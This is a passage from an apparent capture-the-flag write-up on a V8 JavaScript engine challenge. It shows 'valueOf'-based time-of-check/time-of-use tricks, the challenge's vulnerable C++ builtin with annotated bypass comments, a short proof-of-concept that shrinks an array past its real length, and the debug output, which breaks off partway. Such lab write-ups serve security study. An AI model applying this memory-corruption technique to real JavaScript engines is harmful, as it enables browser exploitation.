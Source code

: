 This is very similar, it does the same kind of checks to make sure the builtin is being called on a JSArray and then casts the argument to a Number type. The author of this writeup exploits a TOCTOU this code by setting a 'valueOf' property on a Map type:

```js
evil = {
     valueOf: () => {
       arr[0] = {};
       return 1337;
     }
   }
```

This allows her to modify the array the builtin is called on after the code checks that the array only contains doubles and get it to do the xor operation on a map object, corrupting the pointer to the object.

# Snap Back to Reality

Now, back to the challenge we are working on, it turns out we can do something pretty similar:

```cpp
  // read length of array
  uint32_t old_len = static_cast<uint32_t>(Object::NumberValue(array->length()));

  // argument is casted to a number type, we can remove elements in a valueOf method from the array and still return whatever length we want new_len to be
  Handle<Object> new_len_obj;
  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(isolate, new_len_obj, Object::ToNumber(isolate, args.at(1)));
  uint32_t new_len = static_cast<uint32_t>(Object::NumberValue(*new_len_obj));

  // checks against old_len which was read before we modified the array in the valueOf method
  // if we remove all elements from the array but then return new_len as old_len-1 we still pass this check
  if (new_len >= old_len){
    THROW_NEW_ERROR_RETURN_FAILURE(
      isolate, NewTypeError(MessageTemplate::kPlaceholderOnly,
      factory->NewStringFromAsciiChecked("invalid length"))
    );
  }

  array->set_length(Smi::FromInt(new_len));
```

Here is a small PoC I used to demonstrate it was possible to trigger this bug:
```js
arr = new Array(2000).fill({});
evil = { valueOf() { for (let i = 0; i < 1999; i++) { arr.pop(); } return 1999; } };
arr.shrink(evil)
%DebugPrint(arr);
```

This is the output:
```js
DebugPrint: 0x4ec00042bb9: [JSArray]
 - map: 0x04ec001cb92d <Map[16](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x04ec001cb1c5 <JSArray[0]>
 - elements: 0x04ec00042bc9 <FixedArray[18]> [HOLEY_ELEMENTS]
 - length: 1999
 - properties: 0x04ec00000725 <FixedArray[0]>
 - All own properties (excluding elements): {
    0x4ec00000d99: [String] in ReadOnlySpace: #length: 0x04ec00025fed <AccessorInfo name= 0x04ec00000d99 <String[6]: #length>, data= 0x04ec00000069 <undefined>> (const accessor descriptor, attrs: [W__]), location: descriptor
 }
 - elements: 0x04ec00042bc9 <FixedArray[18]> {
```